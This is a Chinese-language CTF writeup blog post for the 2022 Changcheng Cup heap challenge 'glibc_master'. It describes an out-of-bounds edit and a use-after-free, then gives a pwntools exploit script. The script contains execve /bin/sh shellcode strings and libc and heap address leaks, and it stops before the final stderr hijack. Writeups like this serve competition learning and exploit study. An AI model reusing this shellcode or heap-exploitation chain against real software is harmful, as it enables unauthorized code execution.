 ```yaml
---
title: 2022 长城杯 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=42/
pin: false
published:
---
```


## glibc_master(house of kiwi/UAF)

![image-20220825085120108](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085120108.png)

题目难点主要是edit功能会对堆内容进行一个加密，show功能有3次的次数限制，第三次会close（1）

![image-20220825085431830](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085431830.png)

漏洞点在edit功能的数组越界，同时dele功能还有个UAF

和这道题后续就基本一样了[2022nssrand4 pwn wp](https://blog.e4l4.com/posts/Nssctfrand4/#做道堆题休息一下吧高版本的小sizeoffbynull)劫持bss段上的stderr，house of kiwi或者house of cat都行

![image-20220825085506825](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085506825.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import binascii
context.arch="amd64"
context.log_level = 'debug'

p = process("./glibc_master")
# p = remote("172.20.5.61","9999")
elf = ELF("./glibc_master")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------


def add(idx,size):
	sla(">>",1)
	sla('input index:',idx)
	sla("input size:",size)

def edit(idx,con):
	content = ''
	sla(">>",2)
	sla('input index:',idx)
	for i in range(len(con)):
	    content += chr(u8(con[i])^u8(string[i]))
	p.sendlineafter("input context:",content)

def show(idx):
	sla(">>",3)
	sla('input index:',idx)

def dele(idx):
	sla(">>",4)
	sla('input index:',idx)

string = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='

add(0,0x440)
add(1,0x440)
dele(0)
add(2,0x450)
show(0)
libc_base = uu64()-0x2190c0
lg('libc_base')

edit(0,'a'*0x10)

show(0)
p.recvuntil('a'*0x10)

heap_base_x= p.recv(6)

content = ""
for i in range(6):
	content += chr(u8(heap_base_x[i])^u8(string[16+i]))

heap_base = u64(content.ljust(8,'\x00'))-0x290

lg('heap_base')

edit(0,p64(libc_base+0x2190c0)*2)

p.interactive()
```


